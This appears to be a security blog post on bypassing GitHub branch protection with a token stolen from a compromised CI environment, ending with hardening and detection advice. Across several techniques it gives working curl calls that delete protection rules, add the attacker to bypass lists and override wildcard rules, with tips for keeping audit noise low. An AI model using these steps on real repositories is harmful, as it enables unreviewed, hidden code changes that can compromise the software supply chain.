




Bypassing GitHub Branch Protection — An Adversary’s Perspective
Assume the build environment is already compromised.
Assume the attacker has obtained a GitHub token.
This post focuses only on GitHub Branch Protection bypass techniques, from an adversary mindset, after compromising a CI/CD environment and extracting a privileged token.
Threat model
Initial access
- CI runner / build host compromised
- GitHub token extracted (PAT / App token) from:
- Environment variables
- Workflow secrets
- .git/config
- Cached credentials
Objective - Push code to protected branches without PR review gates - Keep it quiet (minimal audit noise)
High-level flow
flowchart LR
A["Compromise CI runner or build host"] --> B["Extract GitHub token"]
B --> C["Enumerate repo permissions and branch protections"]
C --> D{"Can push to protected branch"}
D -->|Yes| E["Direct push to main"]
D -->|No| F{"Can modify branch protection"}
F -->|Yes| G["Change protection settings"]
F -->|No| H["Need different path (out of scope)"]
G --> I["Push malicious changes"]
I --> J["Optional: restore settings"]What branch protection actually enforces?
Branch protection is enforced server-side by GitHub, not by git locally.
If an attacker can change the rules (or is allowed to bypass them), the protection becomes policy friction rather than a hard barrier.
Enforcement model
flowchart TB
subgraph LOCAL["Local"]
direction TB
GIT["git client"] --> REMOTE["GitHub remote"]
end
subgraph GH["GitHub"]
direction TB
API["Branch protection rules"] --> ENF["Server-side enforcement"]
ENF --> REF["Update refs heads main"]
end
REMOTE --> ENFBypass 1 — Repository admin implicit bypass
Scenario
Let's say we created a simple branch protection rule, enabling only these two options:
- Require a pull request before merging.
- Two approvals required
Example

Technically this should stop us from pushing directly to the protected main branch, unfortunately we can still push directly to the protected branch.
Branch protection did not stop pushing to the branch

Root cause
Root cause
By default, repository admins can bypass branch protection rules. If the compromised token belongs to an admin identity (human or bot), the server can accept the push even though rules exist.

Diagram
sequenceDiagram
autonumber
participant A as Attacker (token holder)
participant GH as GitHub
participant BP as Branch Protection
A->>GH: git push refs/heads/main
GH->>BP: Evaluate protection rules
BP-->>GH: Rules would block (PR and approvals)
GH->>GH: Actor is admin and bypass is allowed
GH-->>A: Push acceptedFix
Tip
Enable the option that enforces rules for admins (no bypass).

Bypass 2 — Delete branch protection via API
Now let's say we apply the fix as showed in the above example. In such cases the attackers often switch to configuration attacks if the token has richer set of priviliges.
Attack idea
If the token has admin rights on the repo, the attacker can perform the following techniques:
Deleting a branch protection rule
- Delete the branch protection rule
- Push code directly to protected branch
- Optionally recreate the rule (for stealth)
Step 1 — Delete the branch protection rule
curl -X DELETE \
-H "Authorization: token $TOKEN" \
-H "Accept: application/vnd.github+json" \
https://api.github.com/repos/<ORG>/<REPO>/branches/main/protection
Step 2 — Push code directly to protected branch
Diagram
sequenceDiagram
autonumber
participant A as Attacker (admin token)
participant API as GitHub REST API
participant GH as Git endpoint
participant BP as Branch Protection
A->>API: DELETE branches main protection
API-->>A: Protection removed
A->>GH: git push main
GH->>BP: Evaluate protection
BP-->>GH: No protection configured
GH-->>A: Push acceptedNotes
Warning
- Noisy (audit trail + drift)
- Often auto-remediated in mature orgs
- Wildcard rule setups can change behavior
Bypass 3 — Add yourself to bypass allowances (stealthy)
Deleting protection is loud. A quieter move is to modify it so your identity can bypass PR requirements.
Attack idea
If the token has admin rights, the attacker can perform the following techniques:
Adding the compromised actor to the bypass list
- Identify the token actor
- Add actor to bypass list
- Push code directly to protected branch
Step 1 — Identify the token actor
curl -H "Authorization: token $TOKEN" \
-H "Accept: application/vnd.github+json" \
https://api.github.com/user
Step 2 — Add actor to bypass list
curl -X PATCH \
-H "Authorization: token $TOKEN" \
-H "Accept: application/vnd.github+json" \
https://api.github.com/repos/<ORG>/<REPO>/branches/main/protection/required_pull_request_reviews \
-d '{
"bypass_pull_request_allowances": {
"users": ["<ACTOR>"],
"teams": [],
"apps": []
}
}'
Step 3 — Push code directly to protected branch
Diagram
sequenceDiagram
autonumber
participant A as Attacker (token actor)
participant API as GitHub REST API
participant BP as Branch Protection
participant GH as Git endpoint
A->>API: GET user (identify actor)
API-->>A: login equals ACTOR
A->>API: PATCH required pull request reviews
API->>BP: Update bypass allowances
BP-->>API: Updated
API-->>A: OK
A->>GH: git push main
GH->>BP: Evaluate protection rules
BP-->>GH: Actor allowed to bypass
GH-->>A: Push acceptedWhy it is stealthier?
- Protection remains enabled
- No deletion events
- Only one identity silently bypasses review gates
Bypass 4 — Reconfigure rules under wildcard enforcement
In this case there might exist wildcard based branch protection rules ( * ) which means all branches in the repository will enforce these rules. An attacker can try to push a generic branch rule to overide the wild card based rule.
Rule Precidence
Named branch rules can override the wildcard rules.
Attack idea
If the token has admin rights, the attacker can perform the following techniques:
Attack Plan
- Push a named branch rule
- Identify the token actor
- Add actor to bypass list
- Push code directly to protected branch
Step 1 - Push a named branch rule
curl -X PUT \
-H "Authorization: token $TOKEN" \
-H "Accept: application/vnd.github+json" \
https://api.github.com/repos/testerhats/app-test-public/branches/main/protection \
-d '{
"required_status_checks": null,
"enforce_admins": null,
"required_pull_request_reviews": {
"dismissal_restrictions": {},
"dismiss_stale_reviews": false,
"require_code_owner_reviews": true,
"required_approving_review_count": 1
},
"restrictions": null
}'
Step 2 — Identify the token actor
curl -H "Authorization: token $TOKEN" \
-H "Accept: application/vnd.github+json" \
https://api.github.com/user
Step 3 — Add actor to bypass list
curl -X PATCH \
-H "Authorization: token $TOKEN" \
-H "Accept: application/vnd.github+json" \
https://api.github.com/repos/<ORG>/<REPO>/branches/main/protection/required_pull_request_reviews \
-d '{
"bypass_pull_request_allowances": {
"users": ["<ACTOR>"],
"teams": [],
"apps": []
}
}'
Step 4 — Push code directly to protected branch
Diagram
sequenceDiagram
autonumber
participant A as Attacker (admin token)
participant API as GitHub REST API
participant BP as Branch Protection Engine
participant GIT as Git endpoint (push)
Note over A,BP: Wildcard rule (*) enforces strong protections on all branches
Note over A,BP: Named rule (main) can override wildcard precedence
A->>API: PUT /branches/main/protection (create named rule)
API->>BP: Store named protection for main (overrides *)
BP-->>API: Updated
API-->>A: 200 OK
A->>API: GET /user (identify token actor)
API-->>A: login=<ACTOR>
A->>API: PATCH /branches/main/protection/required_pull_request_reviews (add bypass allowance)
API->>BP: Update bypass allowances for main
BP-->>API: Updated
API-->>A: 200 OK
A->>GIT: git push origin main
GIT->>BP: Evaluate protections for main
BP-->>GIT: Actor allowed to bypass PR gate
GIT-->>A: Push accepted
A->>API: (Optional) Revert protection settings
Why it is stealthier?
- No delete operation
- Adding new branch protection rule might not look like an attack
Defensive recommendations
Hardening map
flowchart TB
H["Hardening"] --> A["Disable admin bypass"]
H --> B["Minimize token scopes"]
H --> D["Restrict who can manage branch protection"]
H --> E["Audit and alert on protection changes"]Detection map
flowchart LR
AL["Audit logs"] --> P1["Protection rule updated or deleted"]
AL --> P2["Bypass allowances changed"]
GE["Git events"] --> DP["Direct push to main"]
DP --> NPR["No PR linked"]
P1 --> X["Alert"]
P2 --> X["Alert"]
NPR --> X["Alert"]Closing thoughts
Branch protection is policy until you enforce it for administrators and prevent automation identities from rewriting it.
If your CI can reconfigure branch protections, then your CI effectively holds administrator power over your source of truth.